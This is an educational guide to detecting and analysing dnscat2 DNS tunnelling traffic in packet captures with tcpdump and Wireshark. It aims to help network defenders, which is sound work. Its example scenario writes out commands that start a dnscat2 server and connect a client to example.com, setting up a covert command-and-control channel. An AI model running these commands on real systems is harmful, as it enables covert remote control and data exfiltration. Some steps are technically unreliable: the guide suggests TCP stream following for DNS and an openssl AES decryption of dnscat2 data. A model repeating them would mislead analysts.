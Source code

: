 # DNSCat pcap analysis


# 👉 Overview

---

### 👀 What ?

> DNSCat is a tool that allows users to create an encrypted command and control (C2) channel over the Domain Name System (DNS). A pcap, short for packet capture, is a file format used to store network traffic data. DNSCat pcap analysis, therefore, involves examining network traffic data captured during a DNSCat session to investigate potentially malicious activity or to troubleshoot network issues.
> 

### 🧐 Why ?

> Understanding DNSCat pcap analysis is vital because DNS is a common protocol that is allowed through firewalls, making it an attractive method for exfiltrating data or controlling compromised systems covertly. Detecting malicious DNS traffic can be challenging given the vast amount of legitimate DNS traffic on a network. Therefore, learning how to analyze DNSCat pcap files can help network administrators and security professionals detect and understand malicious activity hidden in DNS traffic.
> 

### ⛏️ How ?

> To analyze a DNSCat pcap file, you can use a tool like Wireshark, a popular network protocol analyzer. After loading the pcap file into Wireshark, you can filter for DNS traffic and then analyze the various DNS queries and responses. Look for unusual patterns, such as an excessive number of DNS requests, unusually long domain names, or strange subdomains, as these can be signs of DNS tunneling. You can also use the 'Follow TCP Stream' function in Wireshark to examine the data being sent and received in each DNS session.
> 

### ⏳ When ?

> The use of DNS for command and control activities has been prevalent for several years, and tools like DNSCat have been around since the early 2010s. DNSCat pcap analysis is a continually relevant skill as long as DNS remains a popular protocol for data exfiltration and command and control activities.
> 

# ⚙️ Technical Explanations

---

DNSCat is a tool that allows users to create an encrypted command and control (C2) channel over the Domain Name System (DNS). A pcap, short for packet capture, is a file format used to store network traffic data. DNSCat pcap analysis involves examining network traffic data captured during a DNSCat session to investigate potentially malicious activity or to troubleshoot network issues. Understanding DNSCat pcap analysis is vital because DNS is a common protocol that is allowed through firewalls, making it an attractive method for exfiltrating data or controlling compromised systems covertly. Detecting malicious DNS traffic can be challenging given the vast amount of legitimate DNS traffic on a network. Therefore, learning how to analyze DNSCat pcap files can help network administrators and security professionals detect and understand malicious activity hidden in DNS traffic.

## Detailed Explanation and Examples

### How DNSCat Works

DNSCat works by sending DNS queries from a client to a server. The server then responds with DNS responses containing the command or data. This interaction is captured in a pcap file, which stores all the packet data exchanged during the session. By analyzing the DNS queries and responses in the pcap file, you can uncover the commands sent and the data received. The encryption used by DNSCat can make this analysis more challenging, as the data is not in plaintext. However, if you have access to the encryption key used in the session, you can decrypt the data for analysis.

### Example Scenario

### Step 1: Capturing DNSCat Traffic

First, we'll simulate a DNSCat session to create a pcap file. For educational purposes, we'll assume that we have both the DNSCat client and server set up in our environment.

1. On the server, start the DNSCat server:
    
    ```
    dnscat2-server.rb --secret=supersecretkey
    
    ```
    
2. On the client, start the DNSCat client and connect to the server:
    
    ```
    dnscat2 --dns server=example.com
    
    ```
    
3. Use a packet capture tool like `tcpdump` to capture the traffic:
    
    ```
    tcpdump -i eth0 -w dnscat-traffic.pcap port 53
    
    ```
    

This will generate a pcap file named `dnscat-traffic.pcap` containing the DNS traffic between the client and server.

### Step 2: Analyzing the pcap File with Wireshark

1. Open Wireshark and load the pcap file:
    
    ```
    wireshark dnscat-traffic.pcap
    
    ```
    
2. Apply a DNS filter to isolate DNS traffic:
    
    ```
    dns
    
    ```
    
3. Inspect the DNS queries and responses. Look for unusual patterns, such as:
    - An excessive number of DNS requests.
    - Unusually long domain names.
    - Strange subdomains that do not seem to belong to legitimate domains.
4. Use the "Follow UDP Stream" function to examine the data:
    - Right-click on a DNS packet.
    - Select "Follow" > "UDP Stream".
5. If you have the encryption key, decrypt the data:
    - Export the stream data to a file.
    - Use a tool like `openssl` to decrypt the data:
        
        ```
        openssl enc -d -aes-256-cbc -in encrypted_data.bin -out decrypted_data.txt -k supersecretkey
        
        ```
        

### Step 3: Interpreting the Results

Analyze the decrypted data to understand the commands and data exchanged during the DNSCat session. Look for:

- Specific commands sent from the client to the server.
- Data exfiltrated from the client to the server.

### Conclusion

DNSCat pcap analysis is a valuable skill for network administrators and security professionals. By understanding how to capture and analyze DNS traffic, you can detect and investigate potentially malicious activities hidden within legitimate DNS traffic. This knowledge can help protect your network from data exfiltration and command and control activities using DNS tunneling.

### Additional Tips

- Regularly update your knowledge of DNS tunneling techniques and tools.
- Use automated analysis tools and scripts to assist in detecting unusual DNS patterns.
- Stay informed about the latest security threats and mitigation strategies related to DNS traffic.

By mastering these techniques, you can enhance your ability to safeguard your network against sophisticated threats that leverage DNS for malicious purposes.
